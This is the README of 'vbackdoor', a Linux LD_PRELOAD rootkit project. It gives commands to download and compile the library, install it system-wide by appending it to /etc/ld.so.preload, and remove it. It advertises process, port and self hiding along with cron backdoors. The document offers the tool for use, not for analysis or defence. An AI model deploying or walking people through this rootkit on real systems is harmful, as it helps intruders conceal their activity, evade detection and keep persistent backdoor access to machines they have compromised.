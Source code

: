 # vbackdoor
[中文](https://github.com/veo/vbackdoor/blob/main/README_cn.md)

Hide process,port,self under Linux using the LD_PRELOAD rootkit.

### Compile the library

```
git clone https://github.com/veo/vbackdoor.git
cd vbackdoor
vi vbackdoor.c
make
sudo mv vbackdoor.so /usr/local/lib/
```

or

```
wget https://raw.githubusercontent.com/veo/vbackdoor/main/vbackdoor.c
vi vbackdoor.c
gcc -Wall -fPIC -shared -o vbackdoor.so vbackdoor.c -ldl
sudo mv vbackdoor.so /usr/local/lib/
```

### Load it with the global dynamic linker

```
echo /usr/local/lib/vbackdoor.so >> /etc/ld.so.preload
```

### Remove

```
vi /etc/ld.so.preload
```

and delete string "/usr/local/lib/vbackdoor.so"


or


use busybox
```
busybox rm -rf /etc/ld.so.preload
```

  * Process hiding
  * LD_PRELOAD hiding
  * Network hiding
  * cron Backdoors
